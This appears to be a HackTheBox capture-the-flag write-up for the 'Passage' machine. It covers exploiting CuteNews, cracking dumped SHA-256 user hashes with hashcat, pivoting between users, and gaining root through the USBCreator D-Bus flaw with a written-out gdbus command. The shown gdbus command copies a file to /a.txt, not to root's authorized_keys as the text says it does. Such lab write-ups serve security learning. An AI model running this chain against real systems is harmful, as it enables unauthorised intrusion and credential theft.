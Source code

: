 ```yaml
---
layout: default
title: Passage
parent: HackTheBox
nav_order: 6
---
```


# Navigation Structure
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

![](pictures/logo-passage.PNG)

- Summary
- Recon
- Intrusion
- Lateral Movement
- Privilege Escalation
{:toc}



## [](#header-2)Summary:

- Enumerate Vulnerable version of CuteNews
- Exploit vulnerability to pop a shell
- Pivot into more privileged user(s)
- Escalate privileges with USBCreator D-Bus exploit


## [](#header-2)Recon:

Running an aggresive nmap scan(bc why not) I can see that there is a open ssh port and a apache webserver running on port 80.


![](pictures/nmap-passage.png)


Exploring the target IP's website we get the following page:


![](pictures/index-passage.png)


At the bottom we see that the site is running on "CuteNews".


![](pictures/index1-passage.png)


![](pictures/cute-passage.png)





Searchsploit gifts us a mighty(and easy to use) exploit.



Once we use the exploit I pop into a rather restrictive shell within the web dir.


![](pictures/exploit-passage.png)


We also get some hashes to crack but to enumerate who the users may be I followed the some of the exploit code and end up on with the below encrypted info.


![](pictures/lines-passage.png)


Which we can decrypt from base 64 into the following:

```bash
a:1:{s:5:"email";a:1:{s:16:"paul@passage.htb";s:10:"paul-coles";}}
a:1:{s:2:"id";a:1:{i:1598829833;s:6:"egre55";}}
a:1:{s:5:"email";a:1:{s:15:"egre55@test.com";s:6:"egre55";}}
a:1:{s:4:"name";a:1:{s:5:"admin";
a:8:{s:2:"id";s:10:"1592483047";s:4:"name";s:5:"admin";s:3:"acl";s:1:"1";s:5:"email";s:17:"nadav@passage.htb";s:4:"pass";s:64:"7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1";s:3:"lts";s:10:"1592487988";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
a:1:{s:2:"id";a:1:{i:1592483281;s:9:"sid-meier";}}
a:1:{s:5:"email";a:1:{s:17:"nadav@passage.htb";s:5:"admin";}}
a:1:{s:5:"email";a:1:{s:15:"kim@example.com";s:9:"kim-swift";}}
a:1:{s:2:"id";a:1:{i:1592483236;s:10:"paul-coles";}}
a:1:{s:4:"name";a:1:{s:9:"sid-meier";a:9:{s:2:"id";s:10:"1592483281";s:4:"name";s:9:"sid-meier";s:3:"acl";s:1:"3";s:5:"email";s:15:"sid@example.com";s:4:"nick";s:9:"Sid Meier";s:4:"pass";s:64:"4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88";s:3:"lts";s:10:"1592485645";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
a:1:{s:2:"id";a:1:{i:1592483047;s:5:"admin";}}
a:1:{s:5:"email";a:1:{s:15:"sid@example.com";s:9:"sid-meier";}}
a:1:{s:4:"name";a:1:{s:10:"paul-coles";a:9:{s:2:"id";s:10:"1592483236";s:4:"name";s:10:"paul-coles";s:3:"acl";s:1:"2";s:5:"email";s:16:"paul@passage.htb";s:4:"nick";s:10:"Paul Coles";s:4:"pass";s:64:"e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd";s:3:"lts";s:10:"1592485556";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
a:1:{s:4:"name";a:1:{s:9:"kim-swift";a:9:{s:2:"id";s:10:"1592483309";s:4:"name";s:9:"kim-swift";s:3:"acl";s:1:"3";s:5:"email";s:15:"kim@example.com";s:4:"nick";s:9:"Kim Swift";s:4:"pass";s:64:"f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca";s:3:"lts";s:10:"1592487096";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"3";}}}
a:1:{s:4:"name";a:1:{s:6:"egre55";a:11:{s:2:"id";s:10:"1598829833";s:4:"name";s:6:"egre55";s:3:"acl";s:1:"4";s:5:"email";s:15:"egre55@test.com";s:4:"nick";s:6:"egre55";s:4:"pass";s:64:"4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc";s:4:"more";s:60:"a:2:{s:4:"site";s:0:"";s:5:"about";s:0:"";}";s:3:"lts";s:10:"1598834079";s:3:"ban";s:1:"0";s:6:"avatar";s:26:"avatar_egre55_spwvgujw.php";s:6:"e-hide";s:0:"";}}}
a:1:{s:2:"id";a:1:{i:1592483309;s:9:"kim-swift";}}

```

Now we know which password hashes match to which users.



## [](#header-2)Intrusion:


To get a better shell I downloaded a reverse php shell from my host and catch the connection with netcat.


![](pictures/phpshell-passage.png)


I was logged in as www-data and had little to no access to much.


At around this time my hashcat that I ran earlier with 
-m 1400 = Sha256

```bash

 hashcat -m 1400  hashes.txt /usr/share/wordlists/rockyou.txt  

```

 the SHA-256 hashes came back with one result, which belongs to the user paul.


```bash
 e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd:atlanta1

 ```

 ## [](#header-2)Lateral Movement:


 To sign is as paul with "su" I had to switch my shell with:

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```


Still not getting much of anywhere with Paul's account, I aimed to switch to the user nadav for two reasons:

1. nadav was the only other user I found in the /home dir.
2. nadav had more privileges and was apart of sudo group.

Looking in paul's authorized_keys file within ~/.ssh I found nadav's public ssh key.


![](pictures/key-passage.png)
Then I finally get into nadav's account and get the user flag.

![](pictures/phpshell-passage.png)



## [](#header-2)Privilege Escalation:


My goal from here is to escalate privileges and get my ass evolved to root user.


![](pictures/meme-passage.png)

After searching for awhile I find a .viminfo file on nadav's /home dir with the help of the ls -a command.

```bash
cat .viminfo
# This viminfo file was generated by Vim 7.4.
# You may edit it if you're careful!

# Value of 'encoding' when this file was written
*encoding=utf-8


# hlsearch on (H) or off (h):
~h
# Last Substitute Search Pattern:
~MSle0~&AdminIdentities=unix-group:root

# Last Substitute String:
$AdminIdentities=unix-group:sudo

# Command Line History (newest to oldest):
:q
:wq
:%s/AdminIdentities=unix-group:root/AdminIdentities=unix-group:sudo/g

# Search String History (newest to oldest):
? AdminIdentities=unix-group:root

# Expression History (newest to oldest):

# Input Line History (newest to oldest):

# Input Line History (newest to oldest):

# Registers:

# File marks:
'0  2  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
'1  12  7  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf

# Jumplist (newest first):
-'  2  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
-'  12  7  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
-'  1  0  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
-'  1  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
-'  12  7  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
-'  1  0  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf

# History of marks within files (newest to oldest):

> /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
        "       2       0
        .       2       0
        +       2       0

> /etc/dbus-1/system.d/com.ubunu.USBCreator.conf
```


Having no idea what "com.ubunu.USBCreator.conf" was I googled and found a very interesting [article](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/) to say the least.


I saw the article was written by the man himself nadav, so this was my first hint I was on the right path.

Essentially the exploit allows us to create/overwrite arbitrary files as root with no password as long as the attacker(me) has access to the sudoers group(which nadav has). 


Naturally, my target with this was to overwrite the authorized_keys file in the /root/.ssh directory with nadav's.

With the following command:

```bash
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/nadav/a.txt /a.txt true
```


I was able to overwrite the file which was indicated by the ().

![](pictures/root-passage.png)


~~~Root!~~~



This was a really fun box especially on the lateral movement/priv esc side of things.






